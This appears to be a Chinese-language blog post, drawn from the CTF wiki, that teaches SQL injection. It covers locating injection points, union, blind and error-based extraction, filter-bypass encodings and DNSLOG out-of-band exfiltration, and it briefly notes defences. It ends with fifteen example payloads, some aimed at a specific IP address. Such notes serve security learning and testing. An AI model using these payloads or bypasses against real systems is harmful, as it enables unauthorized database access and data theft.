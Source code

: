 ```yaml
---
layout: post
author: oy
tag: sqli 盲注
---
```

## 如何开始

> 
### 明确入口
>
一般都在接收用户输入的地方，常见的登录注册接口，评论提交接口等。位置一般以参数url params Post params为主，也有headers(host, ua, referer等)，cookie等。
>
### 查找注入点
>
>1. 输入携带引号，查看是否异常
>
>2. 逻辑操作符and or 是否生效
>
>3. 数字运算符是否生效+ -
>
>4. 字符串拼接是否生效'f' 'o' 'o'
>
>5. 内置函数是否生效
>
>6. 查询结构是否生效 union select, order by
>
### 确定数据库类型
> 根据不同数据库的一些特性，如特殊操作符，特殊注释符，特有函数等来确定目标数据库类型
> 
>### 探测
>
1. union select 
>
	一般是探测数据库信息，比如database(), user()等确定基本信息，再获取目标的数据库名，表名等。information_schema 关键的数据库，存储了许多基本配置及相关信息，
`UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'tablename`
>
2. 盲注
>
>	在注入点无回显的场景，根据响应的正确执行与否来判断注入是否成功，即条件式响应，盲注。
>
>	一般分为两类
>
	1. 布尔盲注
>
		构造有效与无效的SQL语句，观察响应是否有异同，来判断是否可进行盲注。
		`AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables > 'A'`
>		
	2. 时间盲注
>
		根据语句执行时间(server 响应时间)判断语句是否执行成功,一般用sleep(), benchmark()
>
>3. 报错
>
>	根据报错信息判断是否存在潜在的注入点
>
>4. 爆破
>
>	上述步骤明确注入点和基本信息后，采用爆破的方法获取完整的数据库名，表名等。  
>	
>	一般用hex(),unhex(),ascii(),char(),concat()等函数
>
### 绕过
>
1. 引号绕过
>
>	1. 0x61646D696E;
>
>	2. char(), ascii(),hex(),unhex()
>
>2. 字符黑名单绕过
>
>	1. 引号空格分割'a' 'd' 'm' 'I' 'n'
>
>	2. concat() concat_ws() group_concat()
>
>	3. 行间注释(语句截断)
>
>	4. 行内注释(空格替换)
>	
3. 字符编码绕过
>
>	1. 大小写
>
>	2. hex
>
>	3. urlencode
>
>	4. base64
>
>	5. 宽字节
>
>	6. 组合编码
>
>	7. unicode及特殊unicode字符
>
>4. 使用条件语句
>
>	CASE, IF(), IFNULL(), NULLIF()
>
>5. 带外通道(DNSLOG Injection)
>	当无回显时，通过DNSLOG注入获取相关执行成功与否等信息。配合load_file使用

		
### 防御
>
>
>1. 输入过滤
>
>2. 参数化查询
>
>3. 语法解析
>
### 工具
> sqlmap、burpsuit

### 示例
>
	1. 100.94.13.181?a=1' || '1'&'1
	2. 100.94.13.181?a=1' or '1'&'1
	3.  select *,NULL from information_schema.USER_PRIVILEGES as U where PRIVILEGE_TYPE='1' or 0x73656c656374
	4. 100.94.13.181?a=1' or 0x61646D696E'
	5. 100.94.13.181?a=1' or 0x61646D696E#
	6. a=1' or repeat('',1) or repeat('1', 1);#
	7. a=1' or 2+1;#
	8. a=1' or!!2+1;#
	9. a=1' or~~2+1;#
	10. a=1' or!!0x21;#
	11. a=1' or~~0x21;#
	12. a='='
	13. a=foo'='foo
	14. a=1'%00or%001;#
	15. a=1'^1=0#
	
## 主要参考
1. https://ctf-wiki.github.io/ctf-wiki/web/sqli-zh/#_3
